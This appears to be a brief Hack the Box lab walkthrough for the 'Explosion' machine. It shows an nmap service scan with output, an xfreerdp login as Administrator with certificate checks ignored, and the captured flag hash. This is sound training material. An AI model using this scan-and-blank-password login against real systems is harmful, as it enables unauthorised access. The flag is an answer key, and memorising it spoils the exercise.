 Hack the Box
Starting Point

Explosions

10.129.1.13

nmap -sV -sC --min-rate 1000 --max-retries 5 -oN nmap/explosions 10.129.1.13

$ nmap -vv -sV -sC --min-rate 1000 --max-retries 5 -oN nmap/explosions 10.129.1.13

Scanning 10.129.1.13 [1000 ports]
Discovered open port 3389/tcp on 10.129.1.13
Discovered open port 445/tcp on 10.129.1.13
Discovered open port 135/tcp on 10.129.1.13
Discovered open port 139/tcp on 10.129.1.13

PORT     STATE SERVICE       REASON  VERSION
135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack
3389/tcp open  ms-wbt-server syn-ack Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2023-06-18T00:06:43+00:00
| ssl-cert: Subject: commonName=Explosion
| Issuer: commonName=Explosion
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-06-16T23:55:00
| Not valid after:  2023-12-16T23:55:00
| MD5:   05bd 799f 78d6 d7c9 8ce3 797f 1cdc b5d2
| SHA-1: 5ac1 f186 ac6d f20f 33b4 ec0c ee80 955f 16df cf88
| -----BEGIN CERTIFICATE-----
| MIIC1jCCAb6gAwIBAgIQSgCpnc6I7YtOc+npar50LjANBgkqhkiG9w0BAQsFADAU
| MRIwEAYDVQQDEwlFeHBsb3Npb24wHhcNMjMwNjE2MjM1NTAwWhcNMjMxMjE2MjM1
| NTAwWjAUMRIwEAYDVQQDEwlFeHBsb3Npb24wggEiMA0GCSqGSIb3DQEBAQUAA4IB
| DwAwggEKAoIBAQDB4EX/T3OZgGL1+U1C2wMNzHDzSaQ0POVBUc90qOsM8nxbKalq
| eqbxP7X+D7DsAx5Zb54Fr7fgW67fJ7zbMY2HEXZxoPTY17eUqZ4NgRQeUlX72N2A
| o5MKta3n2zZDOFoBKT2BsAf0ztyUBL0sRzrDNpnn/ojwJFjkwYjObNtpGV+yHS7G
| LinS2pn43CNcMgjTfTgVnGbA7wz13BucyOPtnvGnCWrw9UMhIh0nPAJ8u+LyMv3H
| ZrXBrCSXx+iIWPV20YnHFaUNOL4Clk+94G/A2+LqQcbEcJGzlKmRnUAYao6elhtl
| OXCGY7Z6wDBEwnz+d9cKRHGsWMVMGB8aVtLNAgMBAAGjJDAiMBMGA1UdJQQMMAoG
| CCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsFAAOCAQEAQ9RDp03/
| KAUWJIjDyr/yl6Pj7sXAPO9AEvsVGKyyv8KbtEuI5BTvY5Q0D6mv3TXsCAknmJRR
| +i7vux6CKqh1bxv6FOAPyYN7BUqh0legnoPbwXMH8TElT5cS9IonihvqIbpt5CWc
| U+aPYu57fbPF4SNPE3Yx2sa0R4HYeKU8GfrolJ/dbfDZJI55b+cNjTgL1Y8qL/ux
| 0+MbCQchuScEUAwzAl0hWfYsTIlEY5nyWsu52fiogepixVMcfKEHVFIKW3bJnP+n
| iRXQ/KwZRAIhxI0ccgJcosrYVom6F3M0rNI6po/lIXj+qR9MuNp/f46LONINBOLS
| s6mcdO6ITd4C8g==
|_-----END CERTIFICATE-----
|_ssl-date: 2023-06-18T00:06:51+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 37798/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 23330/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 51124/udp): CLEAN (Timeout)
|   Check 4 (port 50597/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-06-18T00:06:46
|_  start_date: N/A


xfreerdp /v:10.129.1.13

xfreerdp /v:10.129.1.13 /cert:ignore /u:Administrator

flat.txt found on desktop:
951fa96d7830c451b536be5a6be008a0